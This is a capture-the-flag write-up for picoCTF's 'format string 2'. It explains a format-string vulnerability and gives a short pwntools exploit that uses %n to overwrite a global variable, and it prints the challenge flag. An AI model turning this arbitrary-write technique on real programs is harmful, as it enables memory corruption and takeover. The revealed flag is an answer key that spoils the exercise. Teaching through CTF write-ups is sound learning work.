




## format string 2
 

**Description**

This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!

**Write-up**

Format string vulnerability where the goal is to overwrite the global variable `sus` with the value `0x67616c66`.



PIE is disabled so exploitation is trivial.


Identified where in the stack the pointer will be.



Created payload to overwrite:


The last 2 bytes got overwritten: `sus = 0x21731f3c`


Attempted to overwrite the full 4 bytes and it worked, however, the exploit takes a considerably long time, this is normal as it is attempting to write around 1.7 gigabytes of data to terminal (0x67616c66 = 1.734.437.990 bytes). To get the remote flag, with my network speed it took approximately 15 minutes.



```python
io = start()

value_to_write = 0x67616c66 # initial sus: 0x21737573

payload = bytes("%1734437990x%17$n.......".format(value_to_write), encoding="utf8")
payload += p64(0x0000000000404060)   # ptr to sus


io.sendline(payload)

io.interactive()
```

A smarter alternative to this exploit would be to do the writing in 2 parts, worst case scenario `0xFFFF` I would be writing 65535 twice, much less than 1.7 gigabytes. Each write overwriting 2 bytes with `$hn`.

**Solution**


Flag: picoCTF{f0rm47_57r?_f0rm47_m3m_5161a699}


[back](./../..)